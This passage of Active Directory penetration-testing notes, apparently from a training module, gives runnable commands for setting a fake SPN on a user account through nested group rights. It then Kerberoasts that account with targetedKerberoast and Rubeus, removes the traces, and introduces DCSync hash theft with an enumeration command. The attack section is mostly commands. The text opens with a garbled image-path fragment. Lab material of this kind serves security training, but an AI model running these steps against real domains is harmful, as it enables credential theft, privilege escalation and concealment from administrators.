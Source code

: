 We must be authenticated as a member of the Information Technology group for this to be successful. Since we added damundsen to the Help Desk Level 1 group, we inherited rights via nested group membership. We can now use Set-DomainObject to create the fake SPN. We could use the tool targetedKerberoast [https://github.com/ShutdownRepo/targetedKerberoast] to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

### Creating a Fake SPN
```powershell
PS > Set-DomainObject -Credential $Cred2 -Identity user3 -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```bash
$ targetedKerberoast.py -d <domain> -u <user> -p <pass>
```

#### Kerberoasting with Rubeus
```
PS > .\Rubeus.exe kerberoast /user:user3 /nowrap
```

#### Cleanup
```powershell
# Removing the Fake SPN from user3's Account
PS > Set-DomainObject -Credential $Cred2 -Identity user3 -Clear serviceprincipalname -Verbose

# Removing user2 from the Help Desk Level 1 Group
PS > Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'user2' -Credential $Cred2 -Verbose

# Confirming user2 was Removed from the Group
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'user2'} -Verbose
```

* * *

## DCSync 
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

### Using Get-DomainUser to View adunn's Group Membership
```
PS > Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```
